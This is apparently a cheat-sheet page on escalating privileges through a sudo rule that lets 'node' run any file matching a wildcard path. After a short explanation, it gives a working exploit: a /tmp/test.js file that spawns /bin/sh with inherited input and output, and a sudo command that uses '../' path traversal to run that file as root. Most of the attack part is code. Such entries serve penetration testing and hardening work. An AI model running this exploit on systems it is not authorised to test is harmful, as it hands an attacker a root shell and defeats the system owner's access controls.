 ```yaml
---
title: Sudo Path Traversal Privilege Escalation
description: If some sudo command receives a file path, we might escalate to privileges using path traversal.
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL) /usr/bin/node /usr/local/scripts/*.js
```

If the file path uses wildcards, we may execute arbitrary files.  
In short, we can refer to files in different directories which the system owner unintended.

<br />

## Exploitation

Assume we can execute ‘node’ command as root and js file.  
Create the **“test.js”** under **/tmp**, which spawns a root shell after executing **‘node’** command.

```jsx
// /tmp/test.js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Now run **‘node’** command as root. We can pass the file using path traversal.

```jsx
sudo /usr/bin/node /usr/local/scripts/../../../tmp/test.js
```